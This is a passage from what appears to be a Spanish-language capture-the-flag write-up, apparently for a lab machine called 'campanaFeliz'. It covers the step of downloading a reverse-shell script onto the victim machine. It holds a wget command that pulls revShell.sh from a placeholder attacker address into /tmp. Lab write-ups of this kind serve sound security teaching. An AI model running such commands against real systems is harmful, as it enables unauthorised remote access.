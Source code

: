 Haremos ambos.

<br>

<h3 id="Descarga">Descargando y Ejecutando Reverse Shell en la Máquina Víctima</h3>

Probemos si tenemos **wget** o **curl**:

<p align="center">
<img src="/assets/images/THL-writeup-campanaFeliz/Captura11.png">
</p>

<p align="center">
<img src="/assets/images/THL-writeup-campanaFeliz/Captura12.png">
</p>

Tenemos solamente **wget**.

Podemos descargar el script en el directorio `/tmp` que es donde tendríamos permisos para hacer descargas:
```bash
wget http://Tu_IP/revShell.sh -O /tmp/revShell.sh
```
